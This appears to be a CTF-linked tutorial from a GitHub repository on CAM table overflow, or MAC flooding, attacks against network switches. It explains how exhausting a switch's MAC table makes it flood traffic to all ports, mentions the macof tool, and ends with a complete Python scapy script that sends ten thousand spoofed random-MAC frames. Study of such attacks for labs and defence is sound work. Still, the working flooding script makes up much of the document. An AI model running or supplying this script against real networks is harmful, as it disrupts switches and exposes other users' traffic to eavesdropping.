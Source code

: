 # CAM overflow/ MAC flooding attack

The hands-on for this is while solving the "Network Hunt" challenge.

## Background

- Content Addressable Memory (CAM) Table Overflow is a Layer 2 attack on a switch
- A switch’s CAM table contains network information such as MAC addresses available on physical switch ports and associated VLAN parameters.
- MAC address flooding attack (CAM table flooding attack) is a type of network attack where an attacker connected to a switch port floods the switch interface with very large number of Ethernet frames with different fake source MAC address.
- CAM Table Overflows occur when an influx of MAC addresses are flooded into the table and the CAM table threshold is reached. This causes the switch to act like a hub, flooding the network with traffic out all ports.

More about CAM over flow: [http://hakipedia.com/index.php/CAM_Table_Overflow](http://hakipedia.com/index.php/CAM_Table_Overflow)

- MAC address flooding exploits the memory and hardware limitations in a switch’s CAM table.
- Switchs are able to store numerous amounts of entries in the CAM table, however, once the resources are exhausted, the traffic is flooded out on all ports(or source VLAN), as the CAM table can no longer store MAC addresses, thus is no longer able to locate the MAC destination MAC address within a packet.
- An attacker is able to exploit this limitation by flooding the switch with an influx of (mostly invalid) MAC addresses, until the CAM tables resources are depleted. - When the aforementioned transpires, the switch has no choice but to flood all ports with all incoming traffic. This is due to the fact that it cannot find the switch port number for a corresponding MAC address within the CAM table. By definition, the switch, acts like, and becomes a hub.

## Exploitation

- CAM overflow attacks are very trivial and are very easy to lauch.
- Tools like macof(part of dsniff suite) make it even easier to exploit.
- To make the attacks reliable have an IP payload with random source and destination IP addresses.


```
#-------------------------------------------------------------------------------#
#     A script to perform CAM overflow attack on Layer 2 switches               #
#                   Bharath(github.com/0xbharath)                               #
#                                                                               #
#     CAM Table Overflow is flooding a switche's CAM table                      #
#     with a lot of fake entries to drive the switch into HUB mode.             #
#  (Send thousands of Ether packets with random MAC addresses in each packet)   #
#-------------------------------------------------------------------------------#

#!/usr/bin/env python
from scapy.all import Ether, IP, TCP, RandIP, RandMAC, sendp


'''Filling packet_list with ten thousand random Ethernet packets
   CAM overflow attacks need to be super fast.
   For that reason it's better to create a packet list before hand.
'''

def generate_packets():
    packet_list = []        #initializing packet_list to hold all the packets
    for i in xrange(1,10000):
        packet  = Ether(src = RandMAC(),dst= RandMAC())/IP(src=RandIP(),dst=RandIP())
        packet_list.append(packet)
    return packet_list

def cam_overflow(packet_list):
    sendp(packet_list, iface='tap0')

if __name__ == '__main__':
    packet_list = generate_packets()
    cam_overflow(packet_list)
```
